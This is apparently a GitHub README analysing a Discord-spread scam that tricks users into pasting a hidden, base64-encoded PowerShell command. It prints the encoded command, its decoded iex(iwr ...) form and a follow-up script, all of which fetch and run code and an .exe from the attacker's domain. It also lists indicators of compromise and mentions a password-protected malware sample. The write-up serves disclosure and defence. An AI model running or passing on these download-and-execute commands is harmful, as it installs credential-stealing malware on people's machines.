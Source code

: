 # Scam Campaign - NalandaExporter

## Overview
This repository documents an ongoing scam campaign that is being spread across multiple Discord channels. The scam attempts to trick users into executing malicious PowerShell commands, ultimately leading to the installation of a credential-stealing malware.

---

## Scam Execution Process

### 1. Initial Redirect
The scam starts with a shortcut link that redirects users to the following website:

**[https://nalandareporter.com/wp-protect/](https://nalandareporter.com/wp-protect/)**

![Screenshot](https://github.com/user-attachments/assets/106ab0ac-1702-4be7-b3e3-f46228b1d11c)

### 2. PowerShell Execution Request
The site prompts users to execute the following PowerShell command via the Windows "Run" window:

```powershell
powershell -w h -e aQBlAHgAKABpAHcAcgAgAC0AVQByAGkAIAAnAGgAdAB0AHAAcwA6AC8ALwBuAGEAbABhAG4AZABhAHIAZQBwAG8AcgB0AGUAcgAuAGMAbwBtAC8AdwBwAC0AcAByAG8AdABlAGMAdAAvAGEAYwB0AGkAbwBuAC4AdAB4AHQAJwAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAKQA=
```

This is a Base64-encoded PowerShell command. Decoding it reveals the following malicious script:

```powershell
iex(iwr -Uri 'https://nalandareporter.com/wp-protect/action.txt' -UseBasicParsing)
```

### 3. Malware Download & Execution
The above command fetches and executes another PowerShell script hosted at:

```powershell
https://nalandareporter.com/wp-protect/path.txt
```

This script downloads and executes an `.exe` file using the following command:

```powershell
$path='C:\ProgramData\captcha.exe';
Invoke-RestMethod -Uri 'https://nalandareporter.com/wp-protect/keynote.exe' -OutFile $path;
Start-Process $path;
```

---

## Malware Analysis
An analysis of the downloaded executable using **Any.Run** confirms that it is a typical information-stealer malware.

**Analysis Report:** [Any.Run Task](https://app.any.run/tasks/f07e6cc7-ea85-4a68-9dd6-99fc3b58e7ff)

### Indicators of Compromise (IOCs)
- **IP Address:** `172.67.223.54`
- **C2 Domain:** `bzondingmoments.tech`

---

## Downloadable Malware Sample
For those interested in analyzing the executable, it has been uploaded in a **ZIP archive** with the password:

```
infected
```

**⚠ WARNING: Handling this file poses a risk. Do not execute it on an unprotected system. Use a sandboxed environment.**

---

## Conclusion
This scam campaign relies on social engineering tactics to trick users into executing malicious PowerShell scripts, ultimately leading to credential theft. Stay vigilant, avoid running unknown scripts, and report suspicious activity.

### Stay Safe! 🚨

